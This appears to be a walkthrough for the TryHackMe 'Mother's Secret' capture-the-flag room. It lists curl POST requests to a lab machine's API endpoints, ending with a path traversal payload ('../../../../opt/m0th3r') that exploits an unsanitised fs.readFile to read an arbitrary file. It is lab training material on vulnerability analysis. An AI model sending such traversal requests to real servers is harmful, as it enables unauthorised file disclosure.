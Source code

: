# [Mother's Secret](https://tryhackme.com/r/room/codeanalysis)

```shell
export MACHINE_IP=x.x.x.x
```

Open http://$MACHINE_IP in a browser and keep it open as contents will change via websocket.

It is important to execute the requests in this order as server changes its internal state.

You can review the javascript code manually or use tools like [semgrep](https://semgrep.dev/) which will detect vulnerabilities about executing `fs.readFile` with a not sanitized `filePath`. 

**What is the special order number?**

```shell
curl -X POST -H "Content-Type: application/json" -d '{"file_path": "100375.yaml"}' http://$MACHINE_IP/yaml
```

**What is the hidden flag in the Nostromo route?**

```shell
curl -X POST -H "Content-Type: application/json" -d '{"file_path": "0rd3r937.txt"}' http://$MACHINE_IP/api/nostromo
```

**What is the name of the Science Officer with permissions?**
**What are the contents of the classified "Flag" box?**

Check the main page, contents should have changed. 

**Where is Mother's secret?**

```shell
curl -X POST -H "Content-Type: application/json" -d '{"file_path": "secret.txt"}' http://$MACHINE_IP/api/nostromo/mother
```

**What is Mother's secret?**

```shell
curl -X POST -H "Content-Type: application/json" -d '{"file_path": "../../../../opt/m0th3r"}' http://$MACHINE_IP/api/nostromo
```
